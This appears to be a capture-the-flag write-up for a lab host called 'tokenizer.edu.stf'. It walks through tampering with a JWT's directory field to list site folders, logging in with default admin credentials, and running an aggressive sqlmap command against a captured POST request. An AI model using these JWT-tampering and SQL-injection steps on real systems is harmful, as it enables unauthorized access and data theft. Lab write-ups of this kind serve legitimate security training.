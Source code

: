 
#### charge token
once again, our token 
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiSmFtZXMiLCJkaXIiOiJzYW1wbGVzIiwia2V5IjoicXdlcnR5IiwidGltZXN0YW1wIjoxNzI2MDQxMTEzfQ.8HexxHT5cLuhRVaUpCu7N-YML0zfHkUkCWrcYMs-MPM

Next, the name of the key, we can change the data in our token
Charge:
either the full path as in the screenshot `/var/www/html`
or specify `./`
Both commands will show us the site directories where the file is located
![[Pasted image 20240911134012.png]]

Next, you need to specify our new token

Method1
be specified ?jwt= in burp 
![[Pasted image 20240911134035.png]]

Method2 use in url
`?jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiSmFtZXMiLCJkaXIiOiJzYW1wbGVzIiwia2V5IjoicXdlcnR5IiwidGltZXN0YW1wIjoxNzI2MDQxMTEzfQ.8HexxHT5cLuhRVaUpCu7N-YML0zfHkUkCWrcYMs-MPM`
![[Pasted image 20240911175031.png]]

We see a cool directory: Super Duper Hidden Directory.

Go to this link and see the password and login fields, (at first I thought that sql was here... But she's not here.(╯︿╰) 
Enter **admin admin** with the handles and go to the next page where we see the new fields 
We see it:

![[Pasted image 20240911182742.png]]

#### attack  sql

I did it through sqlmap, you could do it in a different way, I don't think you need to explain, just use the commands

We drop the http package from burp in the pack files and execute the commented command ()since we specify cookies in the package, therefore you do not need to specify the username and password that you entered before, if you do it differently, you will most likely need to specify them*()

```
┌──(kali㉿kali)-[~/htb]
└─$ #sqlmap -r pack --level=5 --risk=3 --dbs --batch --random-agent --threads=10 --time-sec=5 --timeout=30 --ignore-code=404
cat pack 
POST /supersecretadminloginyoullneverguess.php HTTP/1.1
Host: tokenizer.edu.stf
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://tokenizer.edu.stf
DNT: 1
Connection: keep-alive
Cookie: _gcl_au=1.1.807887967.1724594292; _ga_E9PS2EVWYS=GS1.1.1724665941.2.1.1724676481.60.0.0; _ga=GA1.1.26186061.1724594292; _clck=1nao1d7%7C2%7Cfon%7C0%7C1698; _fbp=fb.1.1724594293979.186148304756426122; PHPSESSID=p80oov368a5mo6497j22dqhbuo
Upgrade-Insecure-Requests: 1

name=1&address=1&phone=1&email=1&plan=1&submit_search=Submit

available databases [3]:
```